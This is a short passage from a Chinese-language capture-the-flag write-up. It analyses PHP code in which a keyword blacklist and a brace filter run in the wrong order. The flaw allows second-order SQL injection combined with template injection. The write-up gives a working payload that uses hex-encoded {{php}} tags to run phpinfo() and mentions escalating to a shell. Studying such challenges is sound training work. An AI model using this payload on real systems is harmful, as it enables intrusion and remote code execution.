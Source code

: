 ```php
public function get_view($userId){
	$res = $this->db->query("SELECT username FROM userTable WHERE userId='$userId'")->result();
	if($res){
		$username = $res[0]->username;
		$username = $this->sql_safe($username);
		$username = $this->safe_render($username);
		$userView = $this->db->query("SELECT userView FROM userRender WHERE username='$username'")->result();
		$userView = $userView[0]->userView;
		return $userView;
	}else{
		return false;
	}
}
```

注意到有两个安全检查函数：

```php
private function safe_render($username){
	$username = str_replace(array('{','}'),'',$username);
	return $username;
}

private function sql_safe($sql){
	if(preg_match('/and|or|order|delete|select|union|load_file|updatexml|\(|extractvalue|\)|/i',$sql)){
		return '';
	}else{
		return $sql;
	}
}
```

它俩会对之前数据库返回的username进行过滤，然而顺序有问题，导致可以用像'se}lect'这样的形式绕过，就产生了二次注入漏洞。

回到之前的逻辑，在`get_view()`中，先利用来自Session的userId查询数据库，获得username。再用username查询数据库，获得一段信息，返回到`index()`中。然后将信息用模板引擎渲染一下返回客户端。可能存在模板注入漏洞，对'{'和'}'的过滤可以利用Hex编码在数据库中绕过。

下面验证一下，构造Payload如下：

```
foo' un{ion se{lect 0x7b7b7068707d7d706870696e666f28293b7b7b2f7068707d7d# //{{php}}phpinfo();{{/php}}
```

返回了php信息。然后修改Payload，getshell。

但是，发现flag读取需要管理员权限，又搞不了了。

## 备注

1. MVC：Model-View-Controller

# ezupload
